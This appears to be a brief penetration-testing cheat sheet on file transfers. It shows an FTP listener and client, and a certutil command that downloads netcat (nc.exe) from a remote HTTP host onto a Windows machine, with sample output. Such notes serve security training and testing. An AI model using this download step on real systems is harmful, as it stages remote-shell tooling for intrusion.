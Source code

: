 # File Transfers

# File Transfer Protocol
FTP listener
```
python -m pyftpdlib 21
```
FTP client
```
ftp 10.0.2.12
```


## certutil
Example:
```
certutil -urlcache -f http://10.10.14.19:8080/nc.exe nc.exe
```
Example output:
```
C:\temp> certutil -urlcache -f http://10.10.14.19:8080/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\temp> dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\temp

01/26/2025  05:30 PM    <DIR>          .
01/26/2025  05:30 PM    <DIR>          ..
01/26/2025  05:30 PM            28,160 nc.exe
               1 File(s)         28,160 bytes
               2 Dir(s)  13,890,064,384 bytes free

C:\temp> 
```
